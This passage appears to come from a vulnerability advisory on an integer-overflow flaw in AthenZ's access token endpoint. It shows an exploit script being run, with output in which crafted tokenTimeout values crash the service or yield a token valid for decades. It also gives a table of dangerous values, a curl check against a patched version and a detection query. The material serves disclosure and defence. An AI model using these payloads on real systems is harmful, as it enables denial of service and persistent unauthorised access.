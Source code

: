 **Execution:**  
```bash
python athenz_exploit.py --cert service_cert.pem --key service_key.pem
```

**Output:**  
```
[+] Testing payload: DoS_overflow (2147483648)
Response: 500
Body: {"code":500,"message":"java.lang.ArithmeticException: integer overflow"}...

[+] Testing payload: Max_token (-1)
Response: 200
Body: {"access_token":"eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9... (expires_in: 2147483647)
```



## Vulnerability Context
**Dangerous Casting Patterns:**  
| Value                | Cast to int    | Security Impact          |
|----------------------|----------------|--------------------------|
| 2147483648 (2^31)    | -2147483648    | DoS via exception        |
| -1                   | 2147483647     | 68-year valid token      |
| 9223372036854775807  | -1             | JVM heap exhaustion      |

**Exploit Requirements:**  
1. Valid service credentials  
2. Access to /zts/v1/accesstoken endpoint  
3. Vulnerable AthenZ version (< PR #3033)  


**Validation Test:**  
```bash
# Attempt exploit with fixed version
curl -X POST 'https://localhost:4443/zts/v1/accesstoken' \
  -H 'Content-Type: application/json' \
  --cert service_cert.pem --key service_key.pem \
  -d '{"tokenTimeout":2147483648}'

# Response
{
  "code": 400,
  "message": "Invalid tokenTimeout: 2147483648"
}
```


## Forensic Analysis
**Detection Signatures:**  
**Elasticsearch Query:**  
```json
{
  "query": {
    "bool": {
      "must": [
        { "match": { "message": "tokenTimeout" } },
        { "range": { "tokenTimeout": { "gte": 2000000000 } } }
      ]
    }
  }
}
```
